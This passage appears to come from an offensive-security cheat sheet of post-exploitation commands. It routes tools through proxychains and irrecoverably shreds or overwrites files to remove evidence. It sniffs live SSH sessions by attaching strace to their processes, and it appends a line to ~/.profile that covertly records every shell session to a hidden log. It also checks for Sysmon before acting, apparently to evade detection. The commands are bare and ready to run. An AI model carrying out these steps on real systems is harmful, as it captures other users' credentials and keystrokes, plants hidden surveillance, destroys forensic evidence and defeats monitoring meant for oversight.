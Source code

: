 ## ProxyChains

> https://github.com/haad/proxychains

```c
$ proxychains <APPLICATION>
```

### Configuration

```c
$ socks4 metasploit
$ socks5 ssh
```

## Save File Deletion

```c
$ shred -z <FILE>
```

### Alternatively

```c
$ FN=<FILE>; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```

## Sniffing SSH Sessions

```console
$ strace -e trace=read -p <PID> 2>&1 | while read x; do echo "$x" | grep '^read.*= [1-9]$' | cut -f2 -d\"; done
```

### If /proc/sys/kernel/yama/ptrace_scope = 1

```console
$ echo 'exec script -qc /bin/bash ~/.ssh-log.txt' >>~/.profile
```

## System Monitor (Sysmon)

Checking if `Sysmon` is running.

```c
PS C:\> Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
PS C:\> Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
PS C:\> Get-Service | where-object {$_.DisplayName -like "*sysm*"}
```

This could also be achieved by querying the `registry`.

```c
PS C:\> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
```
